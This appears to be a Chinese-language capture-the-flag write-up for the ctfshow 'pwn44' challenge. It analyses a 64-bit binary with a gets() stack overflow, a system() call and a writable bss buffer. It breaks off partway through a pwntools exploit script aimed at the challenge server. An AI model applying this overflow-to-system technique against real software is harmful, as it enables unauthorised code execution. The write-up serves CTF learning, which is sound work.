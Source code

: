 ```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn44
```

```
tasike@tasike-VM:~/Desktop$ file pwn44
pwn44: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=21ab50b60a15ea3e2b4ce46ee0a1f7135bb56f29, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn44
[*] '/home/tasike/Desktop/pwn44'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

64bit，堆栈不可执行

`ida`查看

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  logo();
  puts("get system parameter!");
  ctfshow();
  return 0;
}
```

跟进`ctfshow`

```c
__int64 ctfshow()
{
  char v1[10]; // [rsp+6h] [rbp-Ah] BYREF

  return gets(v1);
}
```

> `buf`与`rbp`距离`0xA`

发现`_system`

```c
// attributes: thunk
int system(const char *command)
{
  return system(command);
}
```

没有`/bin/sh`字符串

但是可以注意`bss段`有一个`buf2`

```
.bss:0000000000602080                               public buf2
.bss:0000000000602080 ??                            buf2 db    ? ;
.bss:0000000000602081 ??                            db    ? ;
.bss:0000000000602082 ??                            db    ? ;
```

和上一题思路一样，只不过这题是64位的



编写`attack44.py`

```python
from pwn import *
context(os = 'Linux', arch = 'amd64', log_level = 'debug')
r = remote('pwn.challenge.ctf.show', 28130)
payload = cyclic(0xA + 0x8) + p64()
```

